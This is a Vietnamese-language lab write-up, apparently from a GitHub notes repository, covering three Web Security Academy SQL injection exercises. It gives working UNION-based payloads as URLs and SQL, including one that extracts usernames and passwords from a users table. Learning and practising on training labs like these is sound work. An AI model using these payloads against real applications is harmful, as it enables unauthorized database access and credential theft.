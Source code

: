 > ### **SQL injection UNION attack, determining the number of columns returned by the query**

- Đối với bài này tôi đã thử tấn công UNION attack để lấy dữ liệu từ bảng khác. Bước đầu tiên, tôi sẽ xác định số lượng cột.

- Tôi đã xác thực số cột bằng cách truy vấn như sau:

```js
https://0a85008d0472e372c324de3d00140075.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20NULL,NULL--
```

- Tôi đã thử xem cơ sở dữ liệu bảng có phải có 2 cột hay không.Thì server trả về là lỗi. Vậy tôi đã thử với 3 cột NULL. Và kết quả trả về không lỗi vậy tôi đã xác định số lượng cột.

```js
https://0a85008d0472e372c324de3d00140075.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20NULL,NULL,NULL--
```

> ### **SQL injection UNION attack, finding a column containing text**

- Tôi đã xác định số lượng cột bằng cách tương tự bài trên. Và số lượng trong bảng là 3 cột. Bước thứ 2 tôi xác định kiểu dữ liệu trong cột trong cột như sau:

```sql
' UNION SELECT NULL,'5o2AyN',NULL--
```

```js
https://0a8100a2031ec489c4bbecf70033008a.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20NULL,%275o2AyN%27,NULL--
```

- Và kết quả tôi đã solve được bài ra vậy cột 2 trong bảng cơ sở dữ liệu là kiểu chuỗi.

> ### **SQL injection UNION attack, retrieving data from other tables**

- Đối với bài này, tôi đã thực hiện tấn công UNION để lấy tài khoản và mật khẩu người dùng từ bảng khác mang tên users như sau:

```js
https://0adb00d70421759bc0f836bb00920016.web-security-academy.net/filter?category=%27%20UNION+SELECT+username,password+FROM+users--
```

![](./img_sql/sql-3.png)
